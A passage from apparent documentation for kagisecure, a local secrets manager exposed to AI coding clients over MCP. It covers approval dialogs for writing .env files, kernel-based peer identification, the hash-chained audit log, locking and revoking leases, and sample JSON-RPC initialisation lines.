  │                                                                   │
  │  ▓▓▓▓▓▓▓▓▓░  56 s to answer                                       │
  │                       [ Deny ]  [ Allow once ]  [ Allow for … ]   │
  └───────────────────────────────────────────────────────────────────┘
```

Both Allow buttons raise a Touch ID sheet before anything is granted. Cancelling it returns to the
dialog rather than denying — a fumbled fingerprint is not a policy decision.

**In the daemon**, the same facts arrive as text:

```text
  ┌─ kagisecure approval ─────────────────────────────────────────
  │ A caller wants to write a .env file.
  │
  │ caller      "claude-code" [kernel pid] pid 51234 /usr/local/bin/kagisecure-mcp
  │ started in  /Users/you/code/acme
  │ environment acme / staging
  │ file        /Users/you/code/acme/.env
  │ variables   ACME_API_KEY
  │ for         900 s, up to 10 uses
  │ gitignore   *** INSIDE A GIT WORK TREE AND NOT IGNORED ***
  │
  │ No secret value is shown to the caller either way.
  └───────────────────────────────────────────────────────────────
  Allow? [y = this session / o = once / N = deny]
```

`[UNVERIFIED]` in either channel is honest rather than alarming. The pid shown *is* the kernel's —
macOS's `xucred` carries no pid, so `kagisecure-ipc` reads it with
`getsockopt(SOL_LOCAL, LOCAL_PEERPID)` from its one `#![allow(unsafe_code)]` module,
`kernel_peer.rs` (Linux uses `SO_PEERCRED`), and the executable path is resolved from that pid
with `proc_pidpath`. The peer's **uid** is likewise checked against yours by the kernel, and a
connection from another local user is refused outright. The **code signature** of that process is
checked too, by the app (not by the daemon) — see
[ADR-0015](decisions/0015-peer-code-signature-verification.md) for why an ad-hoc-signed build can
only ever answer "unverified".

### 11.5 Look at what happened, and clean up

The app has an Audit pane with the same information, filterable, plus a live Leases table with a
Revoke button per row. From a terminal:

```console
$ $KS audit --verify
SEQ    DATE        ACTOR       TOOL                  OUTCOME   DETAIL
0      2026-09-09  cli         env create            allowed
4      2026-09-09  mcp         list_environments     allowed
5      2026-09-09  mcp         write_env_file        denied    APPROVAL_TIMEOUT  ACME_API_KEY
7      2026-09-09  mcp         write_env_file        denied    USER_DENIED  ACME_API_KEY
8      2026-09-09  mcp         lock                  allowed

9 entries in total. Entries record names, never values.
Hash chain intact (9 entries).

$ $KS lock                                        # drop the key and every lease
$ claude mcp remove kagisecure -s local
```

`kagisecure lock` works against the app as well as the daemon: it is an IPC message, the app
notices it, locks, and the socket goes away.

### 11.6 Without a client, if you just want to see the wire

```console
$ KAGISECURE_SOCKET=/path/to/daemon.sock ./target/debug/kagisecure-mcp
{"jsonrpc":"2.0","id":1,"method":"initialize","params":{"protocolVersion":"2025-11-25","capabilities":{},"clientInfo":{"name":"curious","version":"0"}}}
{"jsonrpc":"2.0","method":"notifications/initialized"}
{"jsonrpc":"2.0","id":2,"method":"tools/list","params":{}}
```

Type those three lines into its stdin. The IPC frames underneath are length-prefixed JSON on a
`0600` socket, deliberately readable with `xxd`, because a security-critical path you cannot
inspect is one you have to take on faith.
